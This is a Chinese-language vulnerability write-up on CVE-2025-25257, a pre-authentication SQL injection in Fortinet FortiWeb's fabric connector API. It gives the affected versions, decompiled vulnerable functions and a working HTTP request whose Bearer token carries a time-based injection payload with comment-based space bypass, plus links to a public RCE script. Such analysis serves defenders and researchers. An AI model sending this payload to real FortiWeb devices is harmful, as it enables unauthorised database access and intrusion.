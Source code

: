 #  Fortinet FortiWeb SQL注入 CVE-2025-25257  
jsjs  Resetlab   2025-07-14 12:50  
  
以下 FortiWeb  Version版本 affected:  
<table><thead><tr><th><section><span leaf="">Version</span></section></th><th><section><span leaf="">Affected</span></section></th><th><section><span leaf="">Solution</span></section></th></tr></thead><tbody><tr><td><section><span leaf="">FortiWeb 7.6</span></section></td><td><section><span leaf="">7.6.0 through 7.6.3</span></section></td><td><section><span leaf="">Upgrade to 7.6.4 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.4</span></section></td><td><section><span leaf="">7.4.0 through 7.4.7</span></section></td><td><section><span leaf="">Upgrade to 7.4.8 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.2</span></section></td><td><section><span leaf="">7.2.0 through 7.2.10</span></section></td><td><section><span leaf="">Upgrade to 7.2.11 or above</span></section></td></tr><tr><td><section><span leaf="">FortiWeb 7.0</span></section></td><td><section><span leaf="">7.0.0 through 7.0.10</span></section></td><td><section><span leaf="">Upgrade to 7.0.11 or above</span></section></td></tr></tbody></table>  
导致sql注入漏洞位置在下方  
```
__int64 __fastcall get_fabric_user_by_token(const char *a1)
{
  unsigned int v1; // ebx
  __int128 v3; // [rsp+0h] [rbp-4B0h] BYREF
  __int64 v4; // [rsp+10h] [rbp-4A0h]
  _BYTE v5[16]; // [rsp+20h] [rbp-490h] BYREF
  __int64 (__fastcall *v6)(_BYTE *); // [rsp+30h] [rbp-480h]
  __int64 (__fastcall *v7)(_BYTE *, char *); // [rsp+38h] [rbp-478h]
  void (__fastcall *v8)(_BYTE *); // [rsp+58h] [rbp-458h]
  __int64 (__fastcall *v9)(_BYTE *, __int128 *); // [rsp+60h] [rbp-450h]
  void (__fastcall *v10)(__int128 *); // [rsp+68h] [rbp-448h]
  char s[16]; // [rsp+80h] [rbp-430h] BYREF
  _BYTE v12[1008]; // [rsp+90h] [rbp-420h] BYREF
  unsigned __int64 v13; // [rsp+488h] [rbp-28h]

  v13 = __readfsqword(0x28u);
  *(_OWORD *)s = 0;
  memset(v12, 0, sizeof(v12));
  if ( a1 && *a1 )
  {
    init_ml_db_obj((__int64)v5);
    v1 = v6(v5);
    if ( !v1 )
    {

	    **// VULN
      snprintf(s, 0x400u, "select id from fabric_user.user_table where token='%s'", a1);**


      v1 = v7(v5, s);
      if ( !v1 )
      {
        v4 = 0;
        v3 = 0;
        v1 = v9(v5, &v3);
        if ( !v1 )
        {
          if ( (_DWORD)v3 == 1 )
          {
            v10(&v3);
          }
          else
          {
            v10(&v3);
            v1 = -3;
          }
        }
      }
    }
    v8(v5);
  }
  else
  {
    return (unsigned int)-1;
  }
  return v1;
}

```  
  
snprintf(s, 0x400u, "select id from fabric_user.user_table where token='%s'", a1);  
  
通过传入进来的a1  进行直接拼接导致sql注入，查询conf配置文件  
```
<Location "/api/fabric/device/status">
    SetHandler fabric_device_status-handler
</Location>

<Location "/api/fabric/authenticate">
    SetHandler fabric_authenticate-handler
</Location>

<Location ~ "/api/v[0-9]/fabric/widget">
    SetHandler fabric_widget-handler
</Location>

```  
  
在ida里交叉引用上面的函数  
  
发现sub_55ED2EED05F0 --> /api/fabric/device/status  
  
逆向下sub_55ED2EED05F0这个函数里  
```
__int64 __fastcall sub_55ED2EED05F0(__int64 a1)
{
  const char *v2; // rdi
  unsigned int v3; // r13d
  __int64 v5; // r12
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // r14
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  __int64 v13; // r14
  __int64 v14; // rax
  __int64 v15; // rax
  __int64 v16; // rax
  __int64 v17; // rdx
  __int64 v18; // rcx
  __int64 v19; // r14
  __int64 v20; // rax
  const char *v21; // rax
  size_t v22; // rax
  const char *v23; // rax

  v2 = *(const char **)(a1 + 296);
  if ( !v2 )
    return (unsigned int)-1;
  v3 = strcmp(v2, "fabric_device_status-handler");
  if ( v3 )
  {
    return (unsigned int)-1;
  }
  else if ( (unsigned int)fabric_access_check(a1) )             // [1]
  {
    v5 = json_object_new_object(a1);
    v6 = json_object_new_string(nCfg_debug_zone + 4888LL);
    json_object_object_add(v5, "serial", v6);
    v7 = json_object_new_string("fortiweb");
    json_object_object_add(v5, "device_type", v7);
    v8 = json_object_new_string("FortiWeb-VM");
    json_object_object_add(v5, "model", v8);
    v9 = json_object_new_object(v5);
    v10 = json_object_new_int(7);
    json_object_object_add(v9, "major", v10);
    v11 = json_object_new_int(6);
    json_object_object_add(v9, "minor", v11);
    v12 = json_object_new_int(3);
    json_object_object_add(v9, "patch", v12);
    json_object_object_add(v5, "version", v9);
    v13 = json_object_new_object(v5);
    v14 = json_object_new_int(1043);


```  
  
在fabric_access_check(a1)  调用 fabric_access_check函数  
```
__int64 __fastcall fabric_access_check(__int64 a1)
{
  __int64 v1; // rdi
  __int64 v2; // rax
  _OWORD v4[8]; // [rsp+0h] [rbp-A0h] BYREF
  char v5; // [rsp+80h] [rbp-20h]
  unsigned __int64 v6; // [rsp+88h] [rbp-18h]

  v1 = *(_QWORD *)(a1 + 248);
  v6 = __readfsqword(0x28u);
  v5 = 0;
  memset(v4, 0, sizeof(v4));
  v3 = apr_table_get(v1, "Authorization"); // [1]
  if ( (unsigned int)__isoc23_sscanf(v2, "Bearer %128s", v4) != 1 ) // [2]
    return 0;
  v5 = 0;
  if ( (unsigned int)fabric_user_db_init()
    || (unsigned int)refresh_fabric_user()
    || (unsigned int)get_fabric_user_by_token((const char *)v4) ) // [3]
  {
    return 0;
  }
  else
  {
    return 2 * (unsigned int)((unsigned int)update_fabric_user_expire_time_by_token((const char *)v4) == 0);
  }
}


```  
  
通过apr_table_get函数提取http内容Authorization的值赋值给v3  
  
利用__isoc23_sscanf  解析Bearer 之后的内容并且进行输入 运行输入128个字节  
  
随后传入到get_fabric_user_by_token，也就是漏洞点，进行sql注入  
```
GET /api/fabric/device/status HTTP/1.1
Host: ip
Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'

```  
  
因为空格截断，所以用/**/ 代替空格即可  
  
具体shell脚本可以参考以下链接：  
  
https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257/blob/main/watchTowr-vs-FortiWeb-CVE-2025-25257.py  
  
  
